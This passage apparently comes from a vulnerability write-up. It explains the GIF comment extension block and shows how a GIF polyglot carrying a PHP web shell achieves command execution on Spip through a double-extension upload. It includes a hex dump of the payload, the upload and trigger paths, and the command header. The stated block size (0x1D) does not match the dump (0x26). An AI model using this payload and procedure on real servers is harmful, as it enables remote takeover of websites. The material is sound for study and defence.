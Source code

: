 One of the `GIF89` extension types is the `comment` extension. This allows you to embed ASCII text in a GIF file, and is sometimes used to include an image description, image credit, or other human-readable metadata such as the GPS location of the image capture.

<img class="img_med" src="gif-format.gif" alt="gif-format">

The first byte is the extension introducer which is `0x21`. The next byte is always `0xFE` which is the comment label. Then we jump right to the data sub-blocks containing ASCII character codes for your comment. The final byte, `0x00`, indicates a sub-block with zero bytes, which is in fact the end of the block.

More information on the GIF file format here:\
http://giflib.sourceforge.net/whatsinagif/bits_and_bytes.html#comment_extension_block

Let's examine our malicious file's content:

```
00000000  47 49 46 38 39 61 01 00  01 00 00 ff 00 2c 00 00  |GIF89a.......,..|
00000010  00 00 01 00 01 00 00 02  00 21 fe 26 3c 3f 70 68  |.........!.&<?ph|
00000020  70 20 73 79 73 74 65 6d  28 24 5f 53 45 52 56 45  |p system($_SERVE|
00000030  52 5b 27 48 54 54 50 5f  54 30 27 5d 29 3b 3f 3e  |R['HTTP_T0']);?>|
00000040  00 0a                                             |..|
```

You can see that it's a valid GIF file, it starts the comment extension block (`0x21FE`), specifies the size of the block (`0x1D` == `29` in decimal), and ends it using `0x00`. So what happens if PHP code is written inside the comment extension's data sub-blocks in a GIF file?

As double extensions were allowed on Spip, this leads to our Holy Grail!

We first upload our payload at `/ecrire/?exec=article_edit&new=oui`, and then navigate to `/IMG/gif/image.php.gif`. All we have to do is to add a custom header `t0` with the command to execute on the server.
